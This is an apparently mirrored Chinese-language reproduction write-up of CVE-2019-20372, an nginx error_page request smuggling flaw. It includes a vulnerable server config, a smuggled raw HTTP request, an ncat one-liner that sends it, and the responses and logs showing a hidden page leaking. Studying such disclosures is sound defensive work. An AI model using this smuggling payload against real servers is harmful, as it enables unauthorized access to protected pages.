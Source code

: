 # （CVE-2019-20372）Nginx error_page 请求走私漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3048](https://www.zhihuifly.com/t/topic/3048)

# （CVE-2019-20372）Nginx error_page 请求走私漏洞

## 一、漏洞简介

Nginx 1.17.7之前版本中 error_page 存在安全漏洞。攻击者可利用该漏洞读取未授权的Web页面。

## 二、漏洞影响

Ngnix < 1.17.7

## 三、复现过程

> 错误配置

```
server {
 listen 80;
 server_name localhost;
 error_page 401 http://example.org;
 location / {
 return 401;
 }
}
server {
 listen 80;
 server_name notlocalhost;
 location /_hidden/index.html {
 return 200 'This should be hidden!';
 }
} 
```

这时候我们可以向服务器发送以下请求

```
GET /a HTTP/1.1
Host: localhost
Content-Length: 56
GET /_hidden/index.html HTTP/1.1
Host: notlocalhost 
```

我们看一下服务器是怎么处理的

```
printf "GET /a HTTP/1.1\r\nHost: localhost\r\nContent-Length: 56\r\n\r\nGET
/_hidden/index.html HTTP/1.1\r\nHost: notlocalhost\r\n\r\n" | ncat localhost 80 --noshutdown 
```

等于说是吧两个请求都间接的执行了，我们看一下burp里面的返回值

```
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.17.6
Date: Fri, 06 Dec 2019 18:23:33 GMT
Content-Type: text/html
Content-Length: 145
Connection: keep-alive
Location: http://example.org
<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.17.6</center>
</body>
</html>
HTTP/1.1 200 OK
Server: nginx/1.17.6
Date: Fri, 06 Dec 2019 18:23:33 GMT
Content-Type: text/html
Content-Length: 22
Connection: keep-alive
This should be hidden! 
```

再一下nginx服务器里面的日志

```
172.17.0.1 - - [06/Dec/2019:18:23:33 +0000] "GET /a HTTP/1.1" 302 145 "-" "-" "-"
172.17.0.1 - - [06/Dec/2019:18:23:33 +0000] "GET /_hidden/index.html HTTP/1.1" 200 22 "-" 
```